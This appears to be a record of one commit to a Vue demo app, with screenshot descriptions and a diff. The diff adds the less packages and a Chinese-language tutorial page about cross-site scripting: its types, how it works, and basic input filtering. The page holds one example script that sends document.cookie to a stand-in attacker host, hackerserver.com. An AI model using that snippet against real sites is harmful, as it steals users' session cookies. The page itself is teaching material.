

Before and after one commit to zhaoyinpeng/vue-cli, a Vue app: page /#/technologyTree/xss in a window 1280 px wide. Before the commit this address led to /#/technologyTree. Shown: the part 185-1133 px from the top of the page. Before the commit the page ends 800 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
vue中使用less

```diff
--- a/package.json
+++ b/package.json
@@ -60,6 +60,8 @@
     "html-webpack-plugin": "^2.30.1",
     "jest": "^22.0.4",
     "jest-serializer-vue": "^0.3.0",
+    "less": "^3.9.0",
+    "less-loader": "^4.1.0",
     "nightwatch": "^0.9.12",
     "node-notifier": "^5.1.2",
     "optimize-css-assets-webpack-plugin": "^3.2.0",
--- a/src/pages/technology/xss.vue
+++ b/src/pages/technology/xss.vue
@@ -1,16 +1,73 @@
 <template>
-  <div></div>
+  <div id="xss">
+    <h3>一、简介</h3>
+    <h4>
+      什么是XSS?
+      百度百科的解释: XSS又叫CSS (Cross Site Script) ，跨站脚本攻击。它指的是恶意攻击者往Web页面里插入恶意html代码，当用户浏览该页之时，嵌入其中Web里面的html代码会被执行，从而达到恶意用户的特殊目的。
+      它与SQL注入攻击类似，SQL注入攻击中以SQL语句作为用户输入，从而达到查询/修改/删除数据的目的，而在xss攻击中，通过插入恶意脚本，实现对用户游览器的控制，获取用户的一些信息。
+    </h4>
+    <h3>二、分类</h3>
+    <h4>
+      xss攻击可以分成两种类型：
+      <br>1.非持久型攻击
+      <br>2.持久型攻击
+      <br>非持久型xss攻击：顾名思义，非持久型xss攻击是一次性的，仅对当次的页面访问产生影响。非持久型xss攻击要求用户访问一个被攻击者篡改后的链接，用户访问该链接时，被植入的攻击脚本被用户游览器执行，从而达到攻击目的。
+      持久型xss攻击：持久型xss，会把攻击者的数据存储在服务器端，攻击行为将伴随着攻击数据一直存在。
+      也可以分成三类:
+      反射型：经过后端，不经过数据库
+      存储型：经过后端，经过数据库
+      DOM：不经过后端,DOM—based XSS漏洞是基于文档对象模型Document Objeet Model,DOM)的一种漏洞,dom - xss是通过url传入参数去控制触发的。
+    </h4>
+    <h3>三、原理</h3>
+    <h4>
+      第一、XSS反射型攻击，恶意代码并没有保存在目标网站，通过引诱用户点击一个链接到目标网站的恶意链接来实施攻击的。
+      <br>第二、XSS存储型攻击，恶意代码被保存到目标网站的服务器中，这种攻击具有较强的稳定性和持久性，比较常见场景是在博客，论坛等社交网站上，但OA系统，和CRM系统上也能看到它身影，比如：某CRM系统的客户投诉功能上存在XSS存储型漏洞，黑客提交了恶意攻击代码，当系统管理员查看投诉信息时恶意代码执行，窃取了客户的资料，然而管理员毫不知情，这就是典型的XSS存储型攻击。
+    </h4>
+    <h3>四、XSS攻击能做些什么</h3>
+    <h4>
+      1.窃取cookies，读取目标网站的cookie发送到黑客的服务器上，如下面的代码：
+      <i>
+        var i=document.createElement("img");
+        <br>document.body.appendChild(i);
+        <br>i.src = "http://www.hackerserver.com/?c=" + document.cookie;
+        <br>
+      </i>
+      2.读取用户未公开的资料，如果：邮件列表或者内容、系统的客户资料，联系人列表等等，如代码：
+    </h4>
+    <h3>解决方法</h3>
+    <h4>
+      后台过滤：
+      一种方法是在表单提交或者url参数传递前，对需要的参数进行过滤,XSS过滤工具类代码
+      <br>前台过滤：
+      过滤用户输入的 检查用户输入的内容中是否有非法内容。如&lt&gt（尖括号）、”（引号）、 ‘（单引号）、%（百分比符号）、;（分号）、()（括号）、&（& 符号）、+（加号）等。、严格控制输出
+      <br>
+    </h4>
+  </div>
 </template>
 <script>
-  export default {
-    data () {
-      return {}
-    },
-    mounted () {
-    },
-    methods: {}
+export default {
+  data() {
+    return {};
+  },
+  mounted() {},
+  methods: {}
+};
+</script>
+<style lang="less" scoped>
+  @h3Color: green;
+  @h4Color: #e3c93c;
+  #xss{
+    h3{
+      color: @h3Color;
+    }
+    h4{
+      color: @h4Color;
+      i{
+        display: block;
+        background-color: #222;
+        color:#fff;
+      }
+    }
   }
-</script>
-<style>
 
 </style>
```
